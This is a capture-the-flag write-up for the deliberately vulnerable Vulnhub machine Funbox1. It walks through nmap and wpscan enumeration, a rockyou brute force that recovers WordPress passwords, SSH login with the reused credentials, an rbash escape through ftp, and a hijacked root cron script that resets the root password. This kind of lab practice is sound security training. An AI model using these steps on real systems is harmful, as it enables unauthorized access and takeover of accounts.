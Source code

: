 ```yaml
---
title: Vulnhub - Funbox1
description: My writeup on Funbox box.
categories:
 - vulnhub
tags: vulnhub wordpress rbash ssh cronjob wpscan pspy
---
```


![](https://i.imgur.com/FuewCDo.png)

Hi all, let's start!

You can find the machine there > [Funbox](https://www.vulnhub.com/entry/funbox-1,518/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00024s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
MAC Address: 08:00:27:87:6E:0C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
$ nmap -p 21,22,80,33060 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00042s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://funbox.fritz.box/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

Let's enumerate the port 80 first, when we visit it we get an error and redirect us to `http://funbox.fritz.box/` seems like  virtual host. We have to add it to `/etc/hosts` 

```
$ nano /etc/hosts
...
192.168.1.10    funbox.fritz.box
```

Now we can see a wordpress site, let's run `wpscan` on it.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -e ap,u
...

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

No plugins but we can see 2 users `admin,joe` let's run a brute force attack on them with rockyou.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -U admin,joe -P /usr/share/wordlists/rockyou.txt 
...

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345                                                                                                                                                                 
[SUCCESS] - admin / iubire                                                                                                                                                              
Trying admin / iubire Time: 00:00:09 <                                                                                                          > (670 / 14344394)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

## shell as joe - rbash bypass 

Perfect, now we can use the same creds for ssh. `joe:12345` LOL.

```
$ ssh joe@$ip
joe@192.168.1.10's password: 
joe@funbox:~$ echo $SHELL
/bin/rbash
```

We're in `rbash` we can simply bypass that.

```
joe@funbox:~$ ftp
ftp> !/bin/bash
```

## joe -> root

Under `/home/funny` i found a hidden backup.sh file that seems like a cronjob:

```
joe@funbox:/home/funny$ cat .backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

Let's run [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"} to confirm the cronjob.

```
joe@funbox:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
...

2020/09/02 10:44:01 CMD: UID=1000 PID=3209   | /bin/bash /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3208   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3210   | tar -cf /home/funny/html.tar /var/www/html 

2020/09/02 10:45:01 CMD: UID=0    PID=3217   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:45:01 CMD: UID=0    PID=3219   | tar -cf /home/funny/html.tar /var/www/html 
2020/09/02 10:45:01 CMD: UID=0    PID=3218   | /bin/bash /home/funny/.backup.sh 
```

We can see it runs as UID 1000 and as UID 0, let's add a command that changes root password and wait 5 minutes to be sure.

```
joe@funbox:/tmp$ nano /home/funny/.backup.sh 
joe@funbox:/tmp$ cat /home/funny/.backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
echo 'root:pwned' | sudo chpasswd
```

And here we go:

```
joe@funbox:/tmp$ su - root
Password: 
root@funbox:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# 
```

Was fun! :)
